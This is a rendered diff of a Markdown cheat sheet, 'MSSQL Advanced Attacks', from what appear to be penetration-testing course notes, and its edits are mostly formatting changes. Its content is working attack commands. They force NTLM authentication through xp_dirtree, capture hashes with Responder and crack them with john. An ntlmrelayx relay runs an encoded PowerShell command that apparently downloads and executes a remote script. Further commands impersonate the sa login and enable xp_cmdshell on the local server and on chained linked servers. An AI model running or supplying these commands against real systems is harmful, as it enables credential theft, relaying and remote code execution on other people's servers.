

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -38,15 +53,30 @@ IMPORTANT: Mainly all commands specified in this document are meant to be thrown
 
 **UNC PATH Injection and Hash Relaying:**
 
+Remember that you cannot relay a hash to the origin computer, or to a computer that has the SMB signing enabled(which DC have by default).
+
+Additionally, you can opt to only capture the hash and try to "break" it:
+
+```
+1st ~# responder -I tun0  -> Capturing the hash with responder, use the -I parameter to indicate your network interface
+
+Then save the hash to a file(like "hash.txt" in this example).
+
+2nd ~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
+```
+
 Throw this command and verify that the authentication with you SMB server was successful:
+
 ```
-xp_dirtree \\192.168.1.1\test\
+xp_dirtree \\192.168.1.1\test\;
 ```
 You can easily create your SMB server with impacket:
+
 ```
 ~# impacket-smbserver test $(pwd) -smb2support
 ```
 To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:
+
 ```
 ~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
 kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
@@ -56,25 +86,30 @@ ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
 **PRIVILEGE ESCALATION:**
 
 To view the users you can impersonate:
+
 ```
-SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
+SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
 ```
 To impersonate(assuming you can impersonate the sa user):
+
 ```
-EXECUTE AS LOGIN = sa
+EXECUTE AS LOGIN = sa;
 ```
 
 **CODE EXECUTION(through xp_cmdshell):**
 
 Use this commands at this order:
 
-1st ```EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;```
+```
+1st EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
 
-2nd ```EXEC xp_cmdshell "whoami"```
+2nd EXEC xp_cmdshell "whoami";
+```
 
 **CODE EXECUTION ON A LINKED MSSQL SERVER:**
 
 To list linked SQL servers(2 ways):
+
 ```
 exec sp_linkedservers;
 
@@ -82,11 +117,13 @@ SELECT * FROM sys.servers;
 ```
 For this example, assume that dc01 is the linked server.
 
-1st ```EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01```
+```
+1st EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01
 
-2nd ```EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01```
+2nd EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01
 
-3rd ```EXEC (xp_cmdshell 'whoami';) AT dc01```
+3rd EXEC (xp_cmdshell 'whoami';) AT dc01
+```
 
 **PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**
 
@@ -95,8 +132,10 @@ Supose that we have low privileges on our current MSSQL server, however there is
 
 Here are the commands we must throw through dc01:
 
-1st ```EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01```
+```
+1st EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01
 
-2nd ```EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01```
+2nd EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01
 
-3rd ```EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01```
+3rd EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01
+```
````
Also changed, not shown: other parts of MSSQL Advanced Attacks.md (+15 -0 lines).
